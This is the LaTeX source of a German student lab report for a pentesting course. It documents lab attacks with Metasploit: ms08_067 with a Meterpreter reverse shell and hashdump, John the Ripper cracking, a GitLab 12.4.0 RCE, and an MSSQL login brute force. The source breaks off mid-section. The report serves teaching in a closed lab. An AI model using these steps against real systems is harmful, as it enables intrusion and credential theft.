\documentclass[12pt,a4paper]{article}

% ---------------- Pakete ----------------
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[german]{babel}
\selectlanguage{ngerman}
\usepackage{lmodern}
\usepackage{geometry}
\usepackage{setspace}
\usepackage{fancyhdr}
\usepackage[hidelinks]{hyperref}
\usepackage{graphicx}
\usepackage{subcaption}
\usepackage{amsmath}
\usepackage{float}
\usepackage[backend=biber]{biblatex}
\addbibresource{literatur.bib} 
\geometry{
    left=3cm,
    right=2.5cm,
    top=2.5cm,
    bottom=2.5cm
}

\onehalfspacing

% ---------------- Header / Footer ----------------
\pagestyle{fancy}
\fancyhf{}

\fancyhead[L]{Ethical Hacking und Pentesting}
\fancyhead[R]{\leftmark}

\fancyfoot[L]{Uebung 2}
\fancyfoot[R]{\thepage}

\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}

% Begin: SQL-Listing definition
\usepackage[utf8]{inputenc}
\usepackage{xcolor}
\usepackage{listings}
% Farbdefinitionen für das SQL-Highlighting
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

% SQL-Style definieren
\lstdefinestyle{mysqlstyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=SQL
}
\lstset{style=mysqlstyle}
\renewcommand{\lstlistingname}{Code} % "Code" statt "Listing"
\renewcommand{\lstlistlistingname}{Codeverzeichnis} % Ebd. auch in der Verzeichnisstruktur
% End: SQL-Listing definition

% ---------------- Dokument ----------------
\begin{document}

% ---------- Titelblatt ----------
\begin{titlepage}
\centering

\vspace{2cm}

{\Huge \textbf{Ethical Hacking und Pentesting}}\\[0.5cm]
{\LARGE Uebung 5}

\vspace{2cm}

\textbf{Modul: Ethical Hacking und Pentesting SS26} \\
\textbf{Betreuer: Patrick Felke und Frederik Gosewehr} 

\vspace{3cm}

\textbf{Autor(en)}\\
Jonas Baumann \\
Matrikelnummer: 7025016

\vspace{0.5cm}

Julian van Dyken \\
Matrikelnummer: 7024745

\vspace{0.5cm}

Marvin Hahn \\
Matrikelnummer: 7024810

\vspace{3cm}

\textbf{Abgabedatum: 08.06.26} 

\end{titlepage}

% ---------- Inhaltsverzeichnis (ohne Seitenzahl) ----------
\pagenumbering{gobble}

\tableofcontents
\newpage

% ---------- Seitenzahlen starten hier ----------
\pagenumbering{arabic}

% ---------- Inhalt ----------
\section{Vulnerability Scan}

In dieser Aufgabe ging es darum, sich einen Überblick über das Netzwerk zu verschaffen und die potenziellen Ziele voneinander zu unterscheiden bzw. diese anhand ausreichender Informationen den jeweiligen Aufgaben zuzuordnen.\\
Im ersten Schritt wurde mit einem einfachen \texttt{nmap -sP} überprüft, welche Geräte im Netzwerk erreichbar sind, wie in der folgenden Abbildung zu sehen ist:
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe1/Nmapscan_Aufgabe1_einfacherPing}
	\caption{Nmap Ping}
	\label{fig:nmapping}
\end{figure}
Dabei konnten neben unserem eigenen System insgesamt neun weitere Geräte identifiziert werden. Um detailliertere Informationen zu den einzelnen Hosts zu erhalten, wurde anschließend ein Scan mit \texttt{nmap -sV} durchgeführt. Dieser liefert Informationen über offene Ports sowie die auf den Zielsystemen laufenden Dienste und deren Versionen.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe1/nmap_sv_35_42_58}
	\caption{Nmap Scan}
	\label{fig:nmap35}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe1/nmap_sv_66_161_162_243}
	\caption{Nmap Scan}
	\label{fig:nmap}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe1/nmap_sv_zusätzlich254}
	\caption{Nmap Scan}
	\label{fig:nmap254}
\end{figure}
Die Ergebnisse zeigen verschiedene Systeme mit unterschiedlichen Diensten und Konfigurationen. Besonders interessant sind dabei veraltete Softwareversionen, da diese häufig bekannte Sicherheitslücken aufweisen. Darüber hinaus konnten mehrere offene Ports identifiziert werden, die potenzielle Einstiegspunkte für weitere Analysen und Untersuchungen darstellen.
\section{Exploits}
In dieser Aufgabe sollten Sie folgende Angriffe durchführen. Dokumentieren und erklären Sie die
einzelnen Angriffe kurz und knapp. Dokumentieren Sie auch, dass und wie Sie alle hier genutzten
Schwachstellen in Aufgabe 1 gefunden haben.

\subsection{Begrifflichkeiten}
\textit{Erklären Sie den Unterschied zwischen Bind\_shell, Reverse\_shell sowie staged und non-staged Payloads.}

\subsubsection{Vergleich: Bind\_shell vs. Reverse\_shell}
\begin{center}
    \begin{tabular}{|p{4cm}|p{4cm}|}
        \hline
        \textbf{Bind\_shell (Direct Payload)} & \textbf{Reverse\_shell (Reverse Payload)} \\ 
        \hline
        Der Angreifer verbindet sich mit dem Opfer. & Das Opfer verbindet sich mit dem Angreifer. \\ \hline
    \end{tabular}
\end{center}


\subsubsection{Vergleich: staged vs. non-staged Payload}
\begin{center}
    \begin{tabular}{|p{6cm}|p{6cm}|}
        \hline
        \textbf{staged Payload} & \textbf{non-staged Payload} \\
        \hline
        Staged Payloads unterteilen den Delivery-Prozess in zwei Schritte. Initial wird ein sogenannter Stager an das Zielsystem delivered. Dieser etabliert die Kommunikation und lädt anschließend den korrekten Payload herunter. Dadurch wird die initiale Payload-Size verringert, der Angreifer kann den zweiten Payload anpassen und der Payload umgeht gegebenenfalls Intrusion Detection System (IDS). & 
        Non-Staged Payloads liefern den vollständigen Payload auf einmal. Dadurch entfallen die Vorteile der Staged-Variante. Die Vorteile dieser Variante sind jedoch Simplicity, Speed und Predictable Behavior. \\
        \hline
    \end{tabular}
\end{center}

% ======================================================================================================
\subsection{Angriff mittels Reverse Shell und John the Ripper}
\textit{Greifen Sie Windows XP mittels dem Exploit ms08\_067\_netapi an und eröffnen Sie eine Meterpretersession mittels einer reverse\_shell. Erweitern Sie ihre Rechte und laden Sie die gespeicherten Windows Lan-Manager Hashes herunter. Ermitteln Sie die dazugehörigen Passwörter mittels eines geeigneten Passwortcrackers z.B. John the Ripper. Funktioniert der Angriff auch mit einer bind\_shell. Geben Sie eine Erklärung dafür. Warum macht es Sinn sich Login-Daten zu verschaffen, auch wenn man bereits durch einen exploit Zugriff auf das System hat? Erklären Sie in einem Satz, welche Schwäche obiger Exploit ausnutzt.}\\

Für diesen Angriff wird der Exploit
\begin{center}
    \texttt{windows/smb/ms08\_067\_netapi}
\end{center}
verwendet. Als Konfigurationsdaten werden das Opfer als \texttt{RHOST} und der Angreifer als \texttt{LHOST} gesetzt. Außerdem wird die zu verwendende \texttt{PAYLOAD}
\begin{center}
    windows/meterpreter/reverse\_tcp
\end{center}
gesetzt. \autoref{fig:peter_success} zeigt diese Einstellungen und die erfolgreiche Ausführung des Exploits.
%\begin{figure}[H]
%    \centering
%    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/b/peter_config.png}
%    \caption{ms08\_067\_netapi: Konfigurationen}
%    \label{fig:peter_config}
%\end{figure} \noindent
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/b/peter_success.png}
    \caption{ms08\_067\_netapi + reverse\_tcp}
    \label{fig:peter_success}
\end{figure} \noindent
Nach erfolgreichem Login wird \texttt{\$ hashdump} ausgeführt, was uns die Hashes liefert, zu sehen in \autoref{fig:peter_hashdump}.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/b/peter_hashdump.png}
    \caption{Meterpreter: Hashdump}
    \label{fig:peter_hashdump}
\end{figure} \noindent
Mittels \texttt{John the Ripper} können diese geknackt werden. Dieses CLI-Tool nimmt eine hashlist entgegen und Argumente, wie diese geknackt werden soll. \autoref{fig:john_wordlist} zeigt die Wordlist-Option, bei dem ein Dictionary-Angriff auf die Passwörter durchgeführt wird. Es werden ein paar Erfolge verzeichnet, allerdings nicht vollständig.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/b/john_wordlist.png}
    \caption{John the Ripper: Wordlist}
    \label{fig:john_wordlist}
\end{figure} \noindent
\autoref{fig:john_4von5} zeigt, dass ein Paar Passwörter gefunden worden sind, aber nicht alle.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/b/john_4von5.png}
    \caption{John the Ripper: Fast fertig}
    \label{fig:john_4von5}
\end{figure} \noindent
\autoref{fig:john_incremental} zeigt die Verwendung der Incremental-Funktion, die einen Bruteforce durchführt.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/b/john_incremental.png}
    \caption{John the Ripper: Incremental}
    \label{fig:john_incremental}
\end{figure} \noindent
Mit etwas Geduld wird der Angriff erfolgreich, zu sehen in \autoref{fig:john_fertig}.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/b/john_fertig.png}
    \caption{John the Ripper: Erfolg}
    \label{fig:john_fertig}
\end{figure} \noindent

% ======================================================================================================
\subsection{Angriff auf einen Gitlab-Server (vorübergehender Titel)}

\textit{Greifen Sie den Gitlab Server an. Der Exploit muss hier selbst bestimmt werden. Die hier verwendete Gitlab Version ist dabei 12.4.0. Die IP des Servers ist zuvor durch Aufgabe 1. ermittelt worden.}

\textit{Ein anfälliger Account ist dabei victim mit dem Passwort 12345678. Dieser Angriff funktioniert aber auch ohne vorher bekannten Nutzer, Sie müssten sich nur selbst am Server registrieren (was hier wegen dem fehlenden Mailserver und Internet nicht so ohne weiteres geht.). Ermitteln Sie den Inhalt der Datei flag.loot auf dem Server.}

Wir haben den Gitlab Server identifiziert in unserem NMAP Scan aus Aufgabe 1 und festegestellt es ist die 192.168.1.66.
\\
Haben dann folgend dadurch, dass uns die Version bekannt ist geschaut was Metasploit für Exploits anbietet für diese Version und sind über das Modul gitlab-file-read-rce gestoßen, mitdem wir es hinbekommen eine Reverse-Shell zu injezieren.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/Gitlab_angriff_optionen.png}
	\caption{Optionen für Gitlab\_angriff}
	\label{fig:GitlabOptionen}
\end{figure} \noindent
Nach Ausführung des Exploits haben wir eine Verbindung zu dem Gitlab-Server:
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/Gitlab_exploit_start.png}
	\caption{Exploit und Sessions open}
\label{fig:SessionOpen}
\end{figure}
Nun mussten wir aber Feststellen, dass die Shells die Benutzt wurden nicht ausreichend sind und zu wenig Rechte haben um das Flag auszulesen. Daher haben wir die Session und Verbindung die nicht Ruby ist Upgraded auf eine Meterpreter Shell.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/Gitlab_habenmeterpreter.png}
	\caption{Upgrade auf Meterpreter Session}
\label{fig:Meterpreter}
\end{figure}
Schlussendlich mit der Meterpreter-Shell hatten wir dann genügend Rechte um das gesuchte Flag auslesen zu können\\
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/Gitlab_haben_flag.png}
	\caption{Flag}
\label{fig:GitlabFlag}
\end{figure}


\subsection{Angriff auf mssql}
\textit{Greifen Sie den weiteren XP-Rechner mittels \texttt{mssql\_login} an und verschaffen sich Sie Zugriff zum System mittels \texttt{mssql\_payload}.}\\

\noindent Der Angriff wird via Metasploit durchgeführt. Der Angriff ist unter dem Path
\begin{center}
    \texttt{scanner/mssql/mssql\_login}
\end{center}
zu finden. Der Pfad konnte über einen einfachen \texttt{find}-Befehl ermittelt werden. Per \texttt{use}-Befehl in der msfconsole wird der Angriff ausgewählt. Dieser benötigt die Parameter \texttt{RHOST} := 192.168.1.32 und \texttt{RPORT} := 1113. Letzterer war deshalb besonders relevant, da der Standardport für diesen Angriff geschlossen ist. Außerdem erhält der Angriff die Wörterliste
\begin{center}
    \texttt{/usr/share/wordlists/rockyou.txt}
\end{center}
(Parameter \texttt{PASS\_FILE}), welche aber zunächst entpackt werden muss. Weitere wichtige Konfigurationen sind in \autoref{fig:mssql_login_show_options} zu sehen.
\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\linewidth]{Whakaahua/aufgabe2/d/mssql_login_show_options.png}
    \caption{Options for \texttt{mssql\_login}}
    \label{fig:mssql_login_show_options}
\end{figure} \noindent
Mit den korrekten Konfigurationen wird der Exploit gestartet. Alle Passwörter der Wörterliste werden durchprobiert. Das Ergebnis des erfolgreichen Durchlaufs ist in \autoref{fig:mssql_login_exploit} zu sehen.
\begin{figure}[H]
    \centering
